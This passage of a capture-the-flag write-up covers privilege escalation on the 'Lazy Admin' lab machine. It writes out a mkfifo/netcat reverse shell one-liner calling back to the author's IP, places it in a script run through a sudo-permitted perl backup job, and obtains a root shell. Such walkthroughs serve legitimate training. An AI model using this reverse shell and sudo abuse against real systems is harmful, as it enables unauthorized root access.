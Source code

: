 So in theory all we should have to do is modife the IP address in this file, set up a netcat listener, and boom we should have a root shell. Simple Right!  

{{< figure src="/images/LazyAdmin/nano.png">}}
Wrong, It looks like I am not going to be able to open up the file in nano.. or vim.. vi is a clear nope .. and emacs gave the same errors as all the others. So what are we going to do?  
We are going to write a whole new reverse shell using the echo command and directing the output into a new `copy.sh` file.  

Command: `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.2221 8888 >/tmp/f" > /etc/copy.sh`  

Once we have confirmed that our new reverse shell is calling out to our computer we can sent up a new netcat listener to port `8888` and then we fire off the pearl script.  
Command: `sudo /usr/bin/perl /home/itguy/backup.pl`
{{< figure src="/images/LazyAdmin/rootShell.png">}}
Now that we have root access we need to try and find out root flag. 

{{< figure src="/images/LazyAdmin/rootFlag.png">}}
And just like that we have collected the root flag and pwnd this challenge. 

# Congratulations you have just completed the Lazy Admin challenge!
